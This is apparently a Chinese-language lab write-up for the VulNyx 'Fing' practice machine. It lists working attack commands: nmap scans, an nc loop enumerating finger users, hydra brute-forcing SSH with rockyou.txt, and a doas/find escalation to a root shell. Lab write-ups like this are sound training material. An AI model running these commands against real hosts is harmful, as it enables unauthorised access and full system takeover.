







# 环境

来自[Vulny_Fing](https://vulnyx.com/#Fing)，79端口爆破出用户名，再跑破ssh密码，doas提权

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.17
```



## 服务详情

```bash
sudo nmap -sVC -O -p22,79,80 192.168.10.17
```



## 目录扫描

```bash
dirb http://192.168.10.17  #无结果
```

# finger渗透

## 爆破finger用户名

```bash
cp /usr/share/seclists/Usernames/Names/names.txt ./
head -n 1000 names.txt > name.txt
for users in $(cat name.txt); do echo $users | timeout 0.3 bash -c 'nc -vn 192.168.10.17 79 2>/dev/null'; done |grep "Login" |awk '{print $2}'
```



## 爆破ssh密码

```bash
hydra -l adam -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.17 -e nsr -f
```



## 提权

运行一下linpeas.sh脚本，发现存在doas命令，类似sudo的功能



[find提权](https://gtfobins.github.io/gtfobins/find/#shell)

```bash
doas -u root /usr/bin/find . -exec /bin/sh \; -quit
```

